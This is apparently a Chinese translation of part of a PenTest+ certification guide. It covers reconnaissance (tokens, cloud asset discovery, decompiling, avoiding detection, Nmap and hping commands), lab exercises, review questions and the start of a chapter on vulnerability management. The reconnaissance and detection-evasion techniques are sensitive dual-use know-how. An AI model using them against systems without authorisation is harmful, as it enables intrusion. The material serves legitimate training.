

图 3.17 Netcat 横幅抓取

您可能已经猜到，`Nmap` 可以使用 `‐sV` 服务识别标志提供相同的答案。在许多情况下，您可能还希望使用漏洞扫描器或 Web 应用程序安全工具来收集更详细的信息，例如 Cookie。

## API 和接口枚举

PenTest+ 考试目标目前未列出 API 和其他服务级接口，但渗透测试人员应意识到，暴露的 API 可能与暴露的应用程序一样有价值。您可能需要 API 文档才能充分利用它们，但 API 与开放访问或捕获的 API 密钥或其他身份验证和授权令牌相结合，可以提供访问各种有用功能和数据的途径。

## 证书枚举和检查

组织网站提供的证书可以作为信息收集工作的一部分进行枚举。`Nmap` 可以使用 `ssl‐cert` NSE 脚本收集证书信息，所有主要漏洞扫描器都具有抓取和验证证书信息的功能。正如您可能预料的那样，Web 应用程序漏洞扫描器也专门内置了此功能。了解正在使用哪些证书，以及它们是否已过期、被吊销或存在其他问题，对渗透测试人员可能很有用，因为过期的证书和其他加密缺陷通常指向可能被利用的其他管理或支持问题。

证书也用于用户和服务，可能在渗透测试的后期阶段获取。用户和服务证书及密钥通常在获取时进行跟踪，而不是直接枚举。

## 令牌

令牌在许多地方使用，包括 Windows 系统之间的通信、Web 应用程序访问，以及系统和设备需要通信的基础设施中。这意味着令牌是渗透测试人员的目标，他们寻求获取合法令牌以供自己使用，或为自己的目的伪造合法令牌。当然，如果能够通过获取私钥或控制令牌生成功能来创建和签发合法令牌，则是一个更强大的机会！

攻击 Windows 系统可能涉及使用通过 NTLM 进行身份验证的令牌来获取 SYSTEM 权限。希望测试 Web 应用程序会话安全性的渗透测试人员经常遇到 JSON Web 令牌 (`JWTs`)。这些令牌用于做出断言，并使用服务器的密钥签名，它们包含标头、有效载荷或内容以及来自服务器的签名。专门从事 Web 应用程序测试的渗透测试人员使用各种技术来获取允许伪造令牌的密钥，可能提供对目标 Web 应用程序的访问权限。

PenTest+ 考试大纲侧重于令牌的三个关键领域：

*   第一个是令牌范围。令牌可能特定地标识用户，然后根据其范围限制该用户可以采取的操作，或者它们可能标识应用程序并限制其在给定范围内可以采取的操作。本质上，您可以将其视为设置在令牌上的一组限制和条件，这些限制和条件决定了它可以做什么以及在哪里可以做。作为渗透测试人员，获取没有范围限制的令牌，或具有允许您需要执行的操作的限制的令牌，可能是一个可能的目标。

*   签发令牌是令牌生命周期的另一个组成部分，渗透测试人员可能会针对它。如果您可以导致令牌签发系统签发符合您需求的任意令牌，或者您可以获得签署自己的令牌的能力，那么您可以使用这些令牌来执行其他操作。这意味着针对签发服务器或进程以及密钥签名密钥在基于令牌的渗透测试活动中都是常见的。

*   吊销可能会给渗透测试人员带来挑战。如果令牌被吊销，渗透测试人员可能无法继续使用它。这意味着您需要了解令牌如何被吊销，应用程序或服务是否正确处理令牌吊销，以及您是否可以避免您签发或获取的令牌被吊销。

基于令牌的攻击可能很复杂，导致许多渗透测试人员依赖 `Metasploit` 等工具来进行大部分令牌获取和利用攻击。在考虑令牌在现代环境中使用的多种方式时，请确保思考令牌可能在哪里使用以及您可能如何获取它们。

## 第三方托管和云资产发现

组织今天用于运行业务的基础设施越来越多是由第三方组织提供或托管的。云服务、软件即服务 (`SaaS`) 供应商和其他服务提供商都是系统设计的一部分。作为渗透测试人员，您应该考虑如何进行托管和云资产发现，并需要了解它可能带来的限制和挑战。

### 发现第三方托管资产

第三方托管资产（如应用程序、服务器或基础设施的其他元素）可能难以发现。尽管完全或部分知识测试可能会提供有关托管资产的信息，以确保渗透测试人员不会无意中探测它们，但零知识测试需要更加小心。渗透测试人员可能需要配置其工具以限制扫描或测试的 IP 地址、域或链接深度，并应仔细监控其测试，以确保他们不会无意中测试未打算测试的系统或服务。

同时，随着第三方托管资产融入组织基础设施，测试它们的需求也在不断增长。这意味着渗透测试人员应该将这些设计元素考虑在内。您可能需要与渗透测试的发起人以及第三方主机合作，尽可能找到进行测试的方法。

发现第三方资产通常遵循与发现由组织托管或拥有的资产类似的过程。被动信息收集以及主动扫描和手动分析都可以产生有用的信息，但您必须小心不要执行超出范围或可能给发起人组织带来问题的操作。

### 云资产发现


Tools like CloudBrute (`https://github.com/0xsha/CloudBrute`) can help you discover a target's cloud infrastructure for infrastructure‐as‐a‐service (IaaS) providers like Amazon, Google, and Microsoft. These tools can attempt to discover cloud applications and storage (with capabilities differing per vendor). Discovering storage buckets and applications can provide penetration testers with additional targets, or in the case of improperly secured storage buckets, it can even provide direct access to data or even security keys!

##### 限制和发现选项

需要在可能由第三方托管的环境中执行发现的渗透测试人员，可能会遇到比在传统组织拥有和托管的环境中测试时更多的限制。第三方供应商和云服务提供商通常提供共享环境，这些环境可能会受到渗透测试活动的影响。许多供应商在其合同中禁止对其环境进行渗透和其他安全测试，以帮助限制对客户的潜在负面影响。其他供应商可能允许特定类型的渗透测试活动或实践，或者可能要求事先获得许可。

作为渗透测试人员，您将负责验证可以进行哪些活动以及存在哪些限制，并且您必须确保不超出该范围。现代渗透测试人员的范围界定活动通常比过去的渗透测试人员更为复杂。

### 信息收集与代码

支撑组织系统、服务和基础设施的源代码、脚本甚至编译代码也是渗透测试人员的有用目标。作为枚举和信息收集练习的一部分分析代码，有时会被遗忘，因为它需要与端口扫描和其他主动信息收集不同的技能。

作为渗透测试人员，请保持警惕，代码通常包含关于目标的有用信息，范围从脚本中嵌入的用户名和密码，到应用程序如何连接以及数据如何在 Web 应用程序调用的数据库中组织的详细信息。

#### 脚本和解释代码

代码中最容易获取的信息通常存在于脚本和其他解释代码中（即直接运行而不是编译的代码）。大多数脚本和解释代码在组织的初始主动侦察期间可能无法访问，但一旦您绕过外部安全层，您很可能会恢复需要分析的代码。

# 反编译

编译代码，例如许多程序二进制文件中发现的代码，在审查之前需要另一步。这意味着您需要一个 `decompiler`，它将拆解编译代码并提供可读的源代码。许多常见编程语言都有反编译器，因此您应该在将其与合适的工具匹配之前确定您的具体需求。

一种无需反编译即可提供一些有用信息的捷径是使用 Linux `strings` 实用程序，它从编译代码中恢复文本字符串。Strings 在恶意软件分析中通常很有用，一旦恶意软件从各种试图混淆代码的打包方法中解码，但对于大多数常见的编译二进制文件，您可以简单地针对文件运行 `strings` 来收集信息。Figure 3.18 显示了 Netcat 的部分 strings 输出。如果您想尝试相同的命令，可以在 Kali Linux 的 `/bin/nc` 中找到 `nc`。



FIGURE 3.18 Excerpt of strings run on the Netcat binary

#### 调试

如果您有程序的源代码，也可以使用调试器来审查它。与反编译一样，您在早期阶段不太可能使用调试器进行大量工作，但 PenTest+ 考试大纲将其列为信息收集技术之一，因为分析源代码是收集额外信息的常见手段，而可以打开程序并允许您审查它们的调试器可能很有用。幸运的是，调试器内置在您可能用于手动代码审查的相同工具中，例如 Eclipse、Visual Studio 和其他集成开发环境 (IDE)。

### 避免被检测

避免被检测的需求通常由所进行的测试类型决定。已告知安全人员和管理员的已知环境测试不太可能专注于避免被检测，除非检测隐蔽攻击是测试的预期结果。旨在复制现实世界攻击的零知识测试，或可能需要绕过主动防御的渗透测试，可能会考虑如何避免被检测。

被动信息收集技术显然是避免被检测的最简单方法之一，但一旦测试进入主动侦察和信息收集模式，被检测的可能性就会增加。像 Nmap 这样的工具具有内置功能，旨在通过减慢测试速度、随机化扫描端口、使用多个扫描系统或 IP 地址、伪造源地址以及其他技术来降低被检测的可能性。这些技术各有其自身的一系列优缺点，渗透测试人员必须在隐蔽性的需求或愿望与速度、准确性和功能之间取得平衡。您还必须考虑被检测可能意味着什么。许多组织每天会看到数十或数百个外部发起的端口扫描或漏洞探测，他们可能不会对又一次扫描做出反应。来自内部系统或网络的扫描，或针对高度安全环境的更有针对性的攻击或探测，更有可能引起防御者的注意，他们可能会做出反应并阻止渗透测试人员在当前工作中取得成功。

## 信息收集与防御

在本章中，我们讨论了使用被动和主动方法收集组织信息的方法。在收集信息时，请保持警惕，了解您的目标可能已部署的防御机制。

### 主动侦察防御

主动侦察防御主要依赖于网络防御，但如果向外部世界提供任何服务，侦察无法被完全阻止。主动侦察预防通常依赖于几种常见防御：

*   将服务的外部暴露限制在绝对必须暴露的服务

*   使用 IPS 或类似的防御技术来限制或阻止探测以防止扫描

*   使用监控和警报系统，对这些预防措施下仍然持续的事件发出警报

大多数组织将优先检测其内部网络上的主动侦察，拥有强大安全策略的组织禁止并监控扫描工具的使用。主动防御可能会阻止或断开进行主动侦察活动的系统或网络端口，因此监控您自己的工作以查找被检测的迹象至关重要。

### 防止被动信息收集

组织防止被动信息收集要困难得多，因为这依赖于控制其发布的信息。我们审查的每种被动信息收集技术都有其自身的一系列可以应用的控制措施。例如，域名注册商使用的 DNS 防采集技术可以帮助防止滥用。其他 DNS 保护技术包括：

*   将滥用服务的系统或网络列入黑名单

*   使用 CAPTCHA 防止机器人

*   提供隐私服务，使用第三方注册信息而不是实际注册域名的个人或组织


*   实施速率限制，以确保查找不会以高速进行

*   如果可能，不要发布区域文件；gTLD 必须发布其区域文件，这意味着此技术仅适用于某些 ccTLD

其他类型的被动信息收集需要对暴露的数据进行彻底审查，并由组织决定哪些数据应该（或必须）暴露，哪些数据可以通过技术或行政手段加以限制。

## 摘要

收集组织信息对于渗透测试至关重要。测试人员通常需要识别域名、主机、用户、服务以及许多其他元素，以成功提供完全零知识和部分知识测试。

被动侦察，通常称为开源情报（`OSINT`），是指可以从第三方来源收集而无需与目标系统和网络交互的信息。`OSINT` 可以通过搜索、收集和审查公开可用的文档及其他材料中的元数据、审查公共记录和数据库等第三方信息来源，以及使用社交媒体等额外资源来收集。

主动侦察要求渗透测试人员与目标系统、网络和服务进行交互。端口扫描是主动侦察的重要元素，但也可以使用许多其他技术，范围从通过扫描和查询主动枚举用户和网络设备，到抓取网站并与服务交互以确定其功能。

信息收集为渗透测试的每个后续阶段奠定了基础，并将贯穿整个测试过程。成功的渗透测试人员必须能够制定全面的信息收集计划，认识到每种技术和工具可以在何处适当使用。他们还必须熟悉 `Nmap` 等常用工具，知道如何以及何时使用它们，以及如何解释其输出。

## 考试要点

**了解被动侦察。** 被动信息收集完全不与组织或其系统进行交互，并依赖于第三方信息来源。这些来源包括使用 DNS 查找和社交媒体抓取、搜索密码和数据泄露以及违规信息等信息、审查企业信息，以及将 `Shodan` 和 `Censys` 等被动侦察搜索引擎作为其正常工作的一部分。作为 `OSINT` 工作的一部分，可以收集有关组织域名、IP 范围、软件、员工、财务和技术以及许多其他有用信息元素的信息。

**了解侦察练习的目的。** 枚举用户、电子邮件地址、URL、共享资源和服务，以及群组、关系、应用程序和许多其他类型的数据，为渗透测试人员提供进一步信息。枚举为测试、社会工程学或其他技术提供潜在目标列表。渗透测试人员应了解常用于枚举的基本概念和技术，以及每种枚举类型最常用的工具。

**熟悉主动侦察涉及的步骤。** 一旦收集了有关组织的开源信息并确定了将被攻击的网络和主机，主动侦察便开始。主动侦察涉及与目标系统和服务的直接交互，旨在收集信息，使渗透测试人员能够有效地定位攻击。端口扫描、版本扫描和其他交互式评估技术用于在渗透测试的这一阶段收集信息。测试人员应非常熟悉 `Nmap` 等工具，包括任何特定标志和扫描功能。主动侦察可能包括识别防御、确定第三方或云托管系统是否可能包含在基础设施或目标列表中，以及如何避免被检测到。

**能够描述信息收集和代码审查的目的。** 应用程序、代码、令牌和应用程序接口都是渗透测试的合法目标，了解如何通过代码分析、调试和反编译收集应用程序信息在遇到它们时可能很重要。虽然知道如何反编译应用程序并阅读每一行代码不在范围内，但了解如何读取源代码、如何在编译代码中查找有用信息以及渗透测试人员可用于处理编译代码和解释代码的技术存在的基础知识很重要。渗透测试人员还必须知道令牌是如何使用的，以及令牌可能作为渗透测试一部分被利用的基本概念。

## 实验练习

### 活动 3.1：手动 OSINT 收集

在此活动中，您将使用手动工具收集 OSINT。您可以使用 Windows 或 Linux 工具；但是，我们建议使用 Kali Linux 虚拟机或物理机进行此类练习，以增加您对 Linux 和 Kali 工具集的熟悉度。

1. 识别您熟悉的公司或组织所属的域名。

2. 使用 `dig` 命令审查有关域名的信息并记录您的结果。

3. 使用相应的 WHOIS 引擎查找域名并识别联系人和其他有趣的信息。

4. 对域名执行 traceroute。记录您的发现以及有关路由的任何有趣数据。您能否根据 traceroute 信息识别公司的托管提供商、互联网服务提供商或地理位置？

5. 仅限 Kali 用户—使用 `theHarvester` 收集搜索引擎信息，包括域名的电子邮件。哪些信息被公开暴露？

### 活动 3.2：探索 Shodan

在此实验中，您将使用 `Shodan` 和 `Censys` 搜索引擎收集有关组织的信息。为本练习选择一个您熟悉的组织。

1. 访问 `shodan.io` 并搜索您选择的组织的主域名。

2. 审查结果并识别您有多少个唯一结果。

3. 记录一个或多个有趣主机的 URL 或 IP 地址。如果您没有找到任何有趣的内容，请选择另一个域名进行测试。

4. 使用您识别的 URL 或 IP 地址，访问 `censys.io` 并搜索它们。

5. 识别您在两个搜索引擎之间看到的差异。这将如何影响您对每个搜索引擎的使用？这些信息作为 OSINT 收集练习的一部分可能有何用处？

6. 返回 `Shodan` 并单击 Explore。选择一个顶级投票或特色类别，并探索列出的系统。您可以从这些列表中识别出哪些类型的问题？

### 活动 3.3：运行 Nmap 扫描

在此实验中，您将使用 `scanme.nmap.com` 目标来练习您的 `Nmap` 扫描技术。

1. 您的渗透测试范围要求您执行操作系统识别并扫描所有常用端口，但不扫描所有可能端口的完整范围。识别您将从您控制且具有 root 访问权限的系统运行以满足这些要求的扫描命令。

2. 您将如何在以下情况下更改命令：

    1. 您在运行 `Nmap` 的系统上没有管理员或 root 访问权限。

    2. 您需要扫描 1–65535 的所有端口。

    3. 您需要执行服务识别。

    4. 您仅扫描 UDP 端口。

3. 针对 `scanme.nmap.org` 运行每个扫描并比较您的结果。您看到了哪些差异？

## 复习问题

您可以在附录中找到答案。

1. Megan 运行以下 `Nmap` 扫描：

```
nmap -sU -sT -p 1-65535 example.com
```

她将不会收到哪些信息？

1. TCP 服务


## 2. 服务的状态

## 3. UDP 服务

## 4. 漏洞服务列表

## 2. Tom 想要使用搜索引擎查找组织的元数据。以下列表中，他应该使用哪个工具？

1. ExifTool
2. MetaSearch
3. FOCA
4. Nmap

## 3. Zarmeena 对系统运行 Nmap 扫描后发现，TCP 端口 139、443 和 3389 处于开放状态。她最有可能发现该系统运行的操作系统是什么？

1. Windows
2. Android
3. Linux
4. iOS

## 4. Charles 使用以下命令运行 Nmap 扫描：

```
nmap -sT -sV -T2 -p 1-65535 example.com
```

在观看扫描运行超过两个小时后，他意识到需要优化扫描。以下哪项不是加快扫描的有用方法？

1. 仅通过 UDP 扫描以提高速度。
2. 将扫描时序更改为 3 或更快。
3. 更改为 SYN 扫描。
4. 使用默认端口列表。

## 5. Karen 在远程系统的端口扫描中发现 TCP 端口 8080 和 8443 处于开放状态。哪个工具是她手动验证这些端口上运行服务的最佳选择？

1. SSH
2. SFTP
3. Telnet
4. Web 浏览器

## 6. Angela 在渗透测试的早期情报收集阶段恢复了一个 PNG 图像，并希望检查其中有用的元数据。她最有可能成功使用哪个工具来完成此操作？

1. ExifTool
2. Grep
3. PsTools
4. Nginx

## 7. 在 Nmap 扫描期间，Casey 使用了 `‐O` 标志。扫描将主机识别如下：

```
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
```

她可以从这些信息中确定什么？

1. 目标上安装的 Linux 发行版
2. 安装的 Linux 内核的补丁级别
3. 远程系统上次打补丁的日期
4. 该系统正在运行 .9 到 .33 之间的 Linux 2.6 内核

## 8. UDP 服务可以运行的端口完整范围是什么？

1. 1–1024
2. 1–16,383
3. 1–32,767
4. 1–65,535

## 9. Steve 正在使用渗透测试中获得的非特权用户帐户工作。他发现所在的主机上安装了 Nmap，并希望扫描子网中的其他主机，以便在尝试横向移动时识别潜在目标。Steve 可能需要使用哪个 Nmap 标志才能从该帐户成功扫描主机？

1. `‐sV`
2. `‐u`
3. `‐oA`
4. `‐sT`

## 10. 以下哪项提供关于域名注册商和物理位置的信息？

1. Nslookup
2. `host`
3. WHOIS
4. `traceroute`

## 11. Chris 对雇主用作整个组织内部网络范围的 10.10.0.0/16 网络运行 Nmap 扫描。如果他使用 `‐T0` 标志，他可能会遇到什么问题？

1. 当主机计数达到 0 时，扫描将终止。
2. 扫描不会扫描 .0 网络中的 IP 地址。
3. 扫描将以非常慢的速度进行。
4. 扫描将仅扫描 TCP 服务。

## 12. 以下哪种 Nmap 输出格式对渗透测试人员不太可能有用？

1. `‐oA`
2. `‐oS`
3. `‐oG`
4. `‐oX`

## 13. 在渗透测试的早期阶段，Mike 恢复了一个二进制可执行文件，他想快速分析其中的有用信息。以下哪项能让他快速查看二进制文件中潜在的有用信息？

1. Netcat
2. `strings`
3. Hashmod
4. Eclipse

## 14. Jack 正在为日本的一位客户进行渗透测试。他最有可能需要查询哪个 NIC 来获取关于客户网络的信息？

1. RIPE
2. ARIN
3. APNIC
4. LACNIC

## 15. Lin 认为她正在扫描的组织可能正在使用负载均衡器。以下哪种技术可以帮助她检测基于 DNS 的负载均衡器（如果存在）？

1. 使用 Nmap 并查找服务端口差异。
2. 使用 ping 并检查 TTL 和 IP 变化。
3. 使用 Nessus 并检查服务版本差异。
4. 使用 WHOIS 检查多个主机名。

## 16. Charles 使用以下 `hping` 命令向远程系统发送流量：

```
hping remotesite.com -S -V -p 80
```

远程系统将看到哪种类型的流量？

1. 发往 TCP 端口 80 的 HTTP 流量
2. 发往 TCP 端口 80 的 TCP SYN
3. 发往 TCP 端口 80 的 HTTPS 流量
4. 发往 TCP 端口 80 的 TCP 三次握手

## 17. 在 traceroute 期间，结果 `* * *` 表示什么？

1. 不存在通往主机的路由。
2. 查询所有主机。
3. 查询无响应，可能是超时，但流量正在通过。
4. 防火墙正在阻止响应。

## 18. Rick 想要使用标准模型来描述组织内部开发的 Web 应用程序中发现的缺陷。以下哪项最适合他的需求？

1. CWE
2. 钻石模型
3. CVE
4. OWASP

## 19. 渗透测试人员为什么会在信息收集和枚举练习中查找过期证书？

1. 它们表明加密不当，允许轻松解密流量。
2. 它们表明服务可能未得到妥善更新或管理。
3. 攻击者安装过期证书以允许轻松访问系统。
4. 渗透测试人员不会查找过期证书；它们只表明程序问题。

## 20. John 已经获得了一个系统的访问权限，他想使用该系统来收集本地子网中其他主机的更多信息。他想要执行端口扫描，但无法安装其他工具。以下哪个工具不可用作端口扫描仪？

1. Hping
2. Netcat
3. Telnet
4. ExifTool

WileyPRE

# 第 4 章

漏洞扫描

网络安全团队拥有各种各样的工具，可用于识别操作系统、平台和应用程序中的漏洞。自动化漏洞扫描器能够快速扫描系统和整个网络，通过一系列测试来寻找和检测先前未识别的漏洞。

*漏洞管理计划*旨在在攻击者利用这些漏洞来破坏企业信息资产的机密性、完整性或可用性之前，识别、优先处理并修复这些漏洞。有效的漏洞管理计划采用有组织的方法扫描企业资产中的漏洞，使用定义的工作流程来修复这些漏洞，并进行持续评估，以便技术人员和管理人员了解企业网络安全的当前状态。

渗透测试人员（和黑客！）利用这些相同的工具来了解组织的安全态势，并识别潜在目标，以便进行更深入的探测和利用。

## 识别漏洞管理要求

由于其性质，企业网络安全团队用于持续监控的漏洞扫描工具与渗透测试人员使用的工具有显著的重叠。在许多情况下，渗透测试人员利用相同的工具实例来实现节省时间和降低成本。如果企业拥有强大的漏洞管理计划，该计划可以成为渗透测试人员的宝贵信息来源。因此，我们将首先探讨为企业创建漏洞管理计划的过程，然后扩展到这些工具在渗透测试中的具体用途。


# 漏洞管理计划要求

当组织开始制定漏洞管理计划时，应首先识别任何内部或外部的漏洞扫描要求。这些要求可能来自组织运营所处的监管环境，也可能来自内部政策驱动的要求。

## 监管环境

许多组织发现自己受到法律法规的约束，这些法律法规规范了组织存储、处理和传输信息的方式。当组织处理敏感个人信息或属于政府机构的信息时，这一点尤其正确。

这些法律中的许多并不过于具体，也没有明确涉及漏洞管理计划的实施。例如，《健康保险可携性和责任法案》（`HIPAA`）规范了医疗保健提供者、保险公司及其业务合作伙伴处理受保护健康信息的方式。同样，《格拉姆-莱奇-布莱利法案》（`GLBA`）规定了金融机构如何处理客户财务记录。这两项法律都没有明确要求受保护组织进行漏洞扫描。

然而，有两项监管方案明确要求实施漏洞管理计划：支付卡行业数据安全标准（`PCI DSS`）和《联邦信息安全管理法案》（`FISMA`）。

### 支付卡行业数据安全标准（`PCI DSS`）

`PCI DSS` 为处理信用卡交易的商家以及协助商家进行这些交易的服务提供商规定了具体的安全控制措施。该标准包括任何标准中最具体的漏洞扫描要求。

`PCI DSS` 规定了漏洞扫描的许多细节：

*   组织必须运行内部和外部漏洞扫描（`PCI DSS` 要求 `11.2`）。

*   组织必须至少每季度运行一次扫描，并在“网络发生任何重大变化后（例如新系统组件安装、网络拓扑变更、防火墙规则修改、产品升级）”运行扫描（`PCI DSS` 要求 `11.2`）。

*   内部扫描必须由合格人员进行（`PCI DSS` 要求 `11.2.1`）。

*   组织必须修复任何高风险漏洞，并重复扫描以确认已解决，直到收到“干净”的扫描报告（`PCI DSS` 要求 `11.2.1`）。

*   外部扫描必须由 `PCI SSC` 授权的认可扫描供应商（`ASV`）进行（`PCI DSS` 要求 `11.2.2`）。

为了符合 `PCI DSS` 合规性进行漏洞扫描是一个蓬勃发展且竞争激烈的行业，许多安全咨询公司专门从事这些扫描。许多组织选择先自行扫描，以确保自己能够通过测试，然后再向 `ASV` 请求官方扫描。

### 《联邦信息安全管理法案》（`FISMA`）

《2002 年联邦信息安全管理法案》（`FISMA`）要求政府机构以及代表政府机构运营系统的其他组织遵守一系列安全标准。这些标准要求的具体控制措施取决于政府根据 图 4.1 所示的定义将系统指定为低影响、中等影响还是高影响。关于系统分类的进一步指导见联邦信息处理标准（`FIPS`）`199`：联邦信息和信息系统安全分类标准。


图 4.1 FIPS 199 标准 ¶ 来源：美国国家标准与技术研究院（`NIST`）。联邦信息处理标准（`FIPS`）PUB `199`：联邦信息和信息系统安全分类标准。2004 年 2 月。[`nvlpubs.nist.gov/nistpubs/FIPS/NIST.FIPS.199.pdf`](https://nvlpubs.nist.gov/nistpubs/FIPS/NIST.FIPS.199.pdf)

所有联邦信息系统，无论其影响分类如何，都必须满足 NIST 特别出版物 `800‐53`，《联邦信息系统和组织的安全与隐私控制》中关于漏洞扫描的基本要求。每个受 `FISMA` 约束的组织必须满足以下要求，这些要求在“控制描述”部分中描述（[`nvd.nist.gov/800-53/Rev4/control/RA-5`](https://nvd.nist.gov/800-53/Rev4/control/RA-5)）：

> 1. 扫描信息系统和托管应用程序中的漏洞，并在识别并报告可能影响系统/应用程序的新漏洞时进行扫描；

> 2. 使用漏洞扫描工具和技术，通过使用以下标准促进工具之间的互操作性，并自动化漏洞管理流程的部分内容：

>     1. 枚举平台、软件缺陷和不当配置；

>     2. 格式化检查清单和测试程序；以及

>     3. 测量漏洞影响；

> 3. 分析漏洞扫描报告和安全控制评估结果；

> 4. 根据组织的风险评估修复合法漏洞；以及

> 5. 共享从漏洞扫描流程和安全控制评估中获得的信息，以帮助消除其他信息系统中的类似漏洞（即系统性弱点或缺陷）。

这些要求为所有联邦信息系统建立了基准。NIST `800‐53` 然后描述了八项控制增强，根据情况可能需要：

> 1. 组织使用漏洞扫描工具，这些工具包括轻松更新要扫描的信息系统漏洞的功能。

> 2. 组织在新扫描之前（和/或）在识别并报告新漏洞时更新要扫描的信息系统漏洞。

> 3. 组织采用漏洞扫描程序，这些程序可以识别覆盖范围的广度和深度（即，扫描的信息系统组件和检查的漏洞）。

> 4. 组织确定关于信息系统的哪些信息可被对手发现，随后采取组织定义的纠正措施。

> 5. 信息系统为选定的漏洞扫描活动实施对信息系统组件的特权访问授权。

> 6. 组织使用自动化机制比较不同时间的漏洞扫描结果，以确定信息系统漏洞的趋势。

> 7. (*由 NIST 撤销*)

> 8. 组织审查历史审计日志，以确定信息系统中识别的漏洞是否以前被利用过。

> 9. (*由 NIST 撤销*)

> 10. 组织关联漏洞扫描工具的输出，以确定多漏洞/多跳攻击向量的存在。

请注意，要求 `7` 和 `9` 是以前包含在标准中但后来被撤销的控制增强。

在联邦机构确定信息系统属于中等影响类别的情况下，必须至少实施控制增强 `1`、`2` 和 `5`。如果机构确定系统具有高影响，则必须至少实施控制增强 `1`、`2`、`4` 和 `5`。

## 企业政策


PCI DSS 和 FISMA 的规定性安全要求涵盖从事零售交易处理和运行政府系统的组织，但这两类组织仅占所有企业的一小部分。网络安全专业人员普遍认为，漏洞管理是任何信息安全计划的关键组成部分，因此，许多组织在企业政策中规定了漏洞扫描，即使这并非法规要求。

## 支持渗透测试

尽管渗透测试人员通常会利用组织为其他目的进行的漏洞扫描，但他们也可能有针对特定渗透测试工作的专门扫描要求。

如果渗透测试团队计划对特定网络或环境进行测试，他们可能会在信息收集阶段的第一步之一对该环境进行深度扫描。同样，如果团队计划针对特定服务，他们可能会设计并执行专注于该服务的扫描。例如，组织可能决定对新部署的物联网（IoT）环境进行渗透测试。在这种情况下，渗透测试人员可能会进行专注于包含这些设备的网络，并使用针对已知 IoT 漏洞的测试的漏洞扫描。

## 识别扫描目标

一旦组织决定进行漏洞扫描，并确定适用于其扫描的法规要求（如果有的话），它就会进入规划过程的更详细阶段。下一步是识别将由漏洞扫描覆盖的系统。一些组织选择在其扫描过程中覆盖所有系统，而其他组织则根据以下问题的答案对系统进行不同扫描（或根本不扫描）：

*   系统存储、处理或传输的信息的 `数据分类` 是什么？

*   系统是否暴露于互联网或其他公共或半公共网络？

*   系统提供哪些服务？

*   系统是生产系统、测试系统还是开发系统？

组织还使用自动化技术来识别可能被扫描覆盖的系统。网络安全专业人员使用扫描工具搜索网络中的连接系统，无论它们之前是已知还是未知，并构建 `资产清单`。图 4.2 显示了使用 Qualys 漏洞扫描器的资产清单功能开发的资产映射示例。



图 4.2 Qualys 资产映射

管理员可以使用关于系统类型及其处理的信息的补充信息来丰富此清单。然后，这些信息有助于确定哪些系统是关键的，哪些是非关键的。资产清单和关键性信息有助于指导关于执行的扫描类型、扫描频率以及管理员应对扫描检测到的漏洞进行修复的优先级的决策。

## 确定扫描频率

网络安全专业人员依赖自动化来帮助他们以高效、有效的方式履行职责。漏洞扫描工具允许自动安排扫描，以减轻管理员的负担。图 4.3 显示了这些扫描可能在 Tenable 的 Nessus 产品中配置的示例。管理员可以指定满足其安全、合规性和业务要求的计划。

